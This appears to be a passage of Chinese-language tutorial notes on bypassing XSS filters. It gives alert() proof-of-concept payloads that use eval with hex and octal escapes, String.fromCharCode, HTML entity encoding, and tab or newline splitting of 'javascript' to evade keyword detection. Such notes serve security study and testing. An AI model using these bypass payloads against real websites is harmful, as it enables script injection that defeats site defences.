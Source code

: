     -  不能相互嵌套的标签：

        -  `<script>`和`<style>`这两类标签是无法相互嵌套的，如果这两种标签嵌套使用，则代码不生效
        -  `<style>`标签中的JS代码也是不会被执行/生效的，反之也一样。

    -  javascript是弱类型语言：

        -  `<a href="javascript:alert(1)sda6415">click me</a>`
        -  当alert(1)后面出现其他字符时，alert(1)是无法正常弹窗的，常见方法是使用注释符//将后面多于内容注释掉。
        -  但由于javascript是弱类型语言，我们可以使用逻辑运算符|  ||  &  && -  这些符号把alert后面多余内容给分割掉。经测试，当前仅IE浏览器不支持这种方法。

    -  eval()函数:

        -  javascript中有个原生函数，eval()，该函数可执行字符串，重点是它可以解析16进制、8进制的编码

            ```
            16进制的例子：
            
            <script>eval("\u0061\u006c\u0065\u0072\u0074\u0060\u0031\u0060")</script>
            
            <script>eval("\x61\x6c\x65\x72\x74\x28\x27\u4f60\u597d\x27\x29")</script>
            
            8进制的例子：
            
            <script>eval("\141\154\145\162\164\50\47\u4f60\u597d\47\51");</script>
            ```

        -  eval（）虽然不能直接执行10进制形式的脚本，但可以配合String.fromCode()函数使用，该函数可以将数字转换为ASCII值。例子如下：

            ```html
            <iframe src="javAScript:eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))"></iframe>
            ```

- 当进行绕过的时候，要清楚我们使用的是哪一种js代码注入方式，网站进行了哪些防御措施。

- 通用

    -  利用编码绕过

        -  当属性值的payload被检测时（比如检测js伪协议的javascript字符，检测事件内的js关键字）
            -  对属性值进行html编码（十进制，16进制，在数字前面添加多个0）：原理在解析顺序那里讲解了。
                -  `<a href="jav&#0000000000097script:alert('xss')">aa</a>`

        -  利用JavaScript的unicode进行编码绕过:
        -  混合编码绕过

    -  检测关键字：

        - 检测js的一些函数名

            -  当检测javascript，eval，alert等关键字的时候，可以采用（tab键，回车键等）分割这些字符串。

                -  具体哪些字符有用，可以通过自己FUZZ测试得到。

                -  `<a href="javas&#09;cript:ale&#09;rt('xss')">aa</a> `

                -  因为js代码以分号或者判断完整的js代码来当作一行代码的结束，如果js引擎到换行处发现并不是一个完整的js语句，那么会继续处理发现的内容，换行被忽略掉，知道发现下一个分号或者语句完整为止。
                ```html
                <a href="javas
                cript:
                alert('xss')">aa</a> 
                ```
        